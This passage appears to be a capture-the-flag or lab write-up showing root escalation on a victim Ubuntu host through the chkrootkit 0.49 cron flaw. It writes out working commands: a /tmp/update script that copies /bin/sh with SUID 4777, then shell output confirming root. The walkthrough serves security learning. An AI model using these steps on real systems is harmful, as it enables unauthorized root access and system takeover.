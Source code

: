 ### Chkrootkit 0.49
**Method 2**

Another way is via chkrootkit is a common Unix-based program intended to help system administrators check their system for known rootkits.

As we can see, the victim machine contains a vulnerable version of chkrootkit.

```console
www-data@ubuntu:/tmp$ chkrootkit -V
chkrootkit -V
chkrootkit version 0.49

www-data@ubuntu:/tmp$ find /etc/cron* -name 'chkrootkit' -exec ls -la {} \; 2>/dev/null
</etc/cron* -name 'chkrootkit' -exec ls -la {} \; 2>/dev/null                
-rwxr-xr-x 1 firefart root 2032 Jun  4  2014 /etc/cron.daily/chkrootkit
```

We download the exploit to the attacking machine.

```console
root@kali:~$ https://www.exploit-db.com/download/33899
```

Reading the exploit instructions, what the following commands do is create a file named update in the /tmp directory, we assign it execution permissions to be executed by the cron job chkrootkit and create as root a copy of /bin/sh to the /tmp directory and grant it SUID permissions and finally we execute ./sh to get root.

```console
www-data@ubuntu:/tmp$ echo 'cp /bin/sh /tmp; chmod 4777 /tmp/sh' > update
echo 'cp /bin/sh /tmp; chmod 4777 /tmp/sh' > update
www-data@ubuntu:/tmp$ chmod +x update
chmod +x update

www-data@ubuntu:/tmp$ ls    
ls
php.socket-0  sh  update
www-data@ubuntu:/tmp$ ./sh
./sh
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```


